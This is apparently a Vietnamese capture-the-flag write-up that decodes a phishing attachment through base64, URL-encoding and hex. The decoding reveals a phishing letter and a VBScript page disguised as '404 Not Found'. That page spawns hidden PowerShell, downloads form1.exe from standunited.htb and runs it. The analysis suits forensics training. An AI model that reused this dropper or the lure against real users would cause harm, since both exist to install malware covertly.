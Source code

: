 Tải file về: 
![image](https://github.com/user-attachments/assets/0b31031f-7464-48d2-b4da-1ee88dbd52cb)

-  Văn bản được chuyển thành mã base 64, chuyển từ base 64 sang text
-  "<div style="font-family: Arial, sans-serif; font-size: 14px;"><span style="font-family: Monaco, Menlo, Consolas, &quot;Courier New&quot;, monospace; font-size: 12px; font-variant-ligatures: none; text-align: left; white-space: pre-wrap; display: inline !important; color: rgb(209, 210, 211); background-color: rgba(232, 232, 232, 0.04);">Dear Fellow Faction Leader,
I hope this message reaches you in good stead amidst the chaos of The Fray. I write to you with an offer of alliance and resistance against the oppressive regime of KORP™.
It has come to my attention that KORP™, under the guise of facilitating The Fray, seeks to maintain its stranglehold over our society. They manipulate and exploit factions for their own gain, while suppressing dissent and innovation.
But we refuse to be pawns in their game any longer. We are assembling a coalition of like-minded factions, united in our desire to challenge KORP™'s dominance and usher in a new era of freedom and equality.
Your faction has been specifically chosen for its potential to contribute to our cause. Together, we possess the skills, resources, and determination to defy KORP™'s tyranny and emerge victorious.
Join us in solidarity against our common oppressor. Together, we can dismantle the structures of power that seek to control us and pave the way for a brighter future.
Reply to this message if you share our vision and are willing to take a stand against KORP™. Together, we will be unstoppable. Please find our online form attached.
In solidarity,
Anonymous member
Leader of the Resistance</span><br></div>�=�ݝ��y��}��m7k���}"

![image](https://github.com/user-attachments/assets/6bf13dc1-b1ed-42a9-a5d5-edb2fafecd46)

- Chuyển tiếp sang text
"<html>
<head>
<title></title>
<body>
<script language="JavaScript" type="text/javascript">
document.write(unescape('%3c%68%74%6d%6c%3e%0d%0a%3c%68%65%61%64%3e%0d%0a%3c%74%69%74%6c%65%3e%20%3e%5f%20%3c%2f%74%69%74%6c%65%3e%0d%0a%3c%63%65%6e%74%65%72%3e%3c%68%31%3e%34%30%34%20%4e%6f%74%20%46%6f%75%6e%64%3c%2f%68%31%3e%3c%2f%63%65%6e%74%65%72%3e%0d%0a%3c%73%63%72%69%70%74%20%6c%61%6e%67%75%61%67%65%3d%22%56%42%53%63%72%69%70%74%22%3e%0d%0a%53%75%62%20%77%69%6e%64%6f%77%5f%6f%6e%6c%6f%61%64%0d%0a%09%63%6f%6e%73%74%20%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%20%3d%20%33%0d%0a%09%43%6f%6e%73%74%20%48%49%44%44%45%4e%5f%57%49%4e%44%4f%57%20%3d%20%31%32%0d%0a%09%53%65%74%20%4c%6f%63%61%74%6f%72%20%3d%20%43%72%65%61%74%65%4f%62%6a%65%63%74%28%22%57%62%65%6d%53%63%72%69%70%74%69%6e%67%2e%53%57%62%65%6d%4c%6f%63%61%74%6f%72%22%29%0d%0a%09%53%65%74%20%53%65%72%76%69%63%65%20%3d%20%4c%6f%63%61%74%6f%72%2e%43%6f%6e%6e%65%63%74%53%65%72%76%65%72%28%29%0d%0a%09%53%65%72%76%69%63%65%2e%53%65%63%75%72%69%74%79%5f%2e%49%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%4c%65%76%65%6c%3d%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%0d%0a%09%53%65%74%20%6f%62%6a%53%74%61%72%74%75%70%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%53%74%61%72%74%75%70%22%29%0d%0a%09%53%65%74%20%6f%62%6a%43%6f%6e%66%69%67%20%3d%20%6f%62%6a%53%74%61%72%74%75%70%2e%53%70%61%77%6e%49%6e%73%74%61%6e%63%65%5f%0d%0a%09%53%65%74%20%50%72%6f%63%65%73%73%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%22%29%0d%0a%09%45%72%72%6f%72%20%3d%20%50%72%6f%63%65%73%73%2e%43%72%65%61%74%65%28%22%63%6d%64%2e%65%78%65%20%2f%63%20%70%6f%77%65%72%73%68%65%6c%6c%2e%65%78%65%20%2d%77%69%6e%64%6f%77%73%74%79%6c%65%20%68%69%64%64%65%6e%20%28%4e%65%77%2d%4f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%57%65%62%43%6c%69%65%6e%74%29%2e%44%6f%77%6e%6c%6f%61%64%46%69%6c%65%28%27%68%74%74%70%73%3a%2f%2f%73%74%61%6e%64%75%6e%69%74%65%64%2e%68%74%62%2f%6f%6e%6c%69%6e%65%2f%66%6f%72%6d%73%2f%66%6f%72%6d%31%2e%65%78%65%27%2c%27%25%61%70%70%64%61%74%61%25%5c%66%6f%72%6d%31%2e%65%78%65%27%29%3b%53%74%61%72%74%2d%50%72%6f%63%65%73%73%20%27%25%61%70%70%64%61%74%61%25%5c%66%6f%72%6d%31%2e%65%78%65%27%3b%24%66%6c%61%67%3d%27%48%54%42%7b%34%6e%30%74%68%33%72%5f%64%34%79%5f%34%6e%30%74%68%33%72%5f%70%68%31%73%68%69%31%6e%67%5f%34%74%74%33%6d%70%54%7d%22%2c%20%6e%75%6c%6c%2c%20%6f%62%6a%43%6f%6e%66%69%67%2c%20%69%6e%74%50%72%6f%63%65%73%73%49%44%29%0d%0a%09%77%69%6e%64%6f%77%2e%63%6c%6f%73%65%28%29%0d%0a%65%6e%64%20%73%75%62%0d%0a%3c%2f%73%63%72%69%70%74%3e%0d%0a%3c%2f%68%65%61%64%3e%0d%0a%3c%2f%68%74%6d%6c%3e%0d%0a'));
</script>
</body>
</html>
�{F�����}���ߧ�駞뇸{"

- Nhận biết đây là mã Hex. chuyển tiếp từ mã hex sang text:
- "<html>
<head>
<title> >_ </title>
<center><h1>404 Not Found</h1></center>
<script language="VBScript">
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\form1.exe');Start-Process '%appdata%\form1.exe';$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}", null, objConfig, intProcessID)
	window.close()
end sub
</script>
</head>
</html>"
flag: HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}
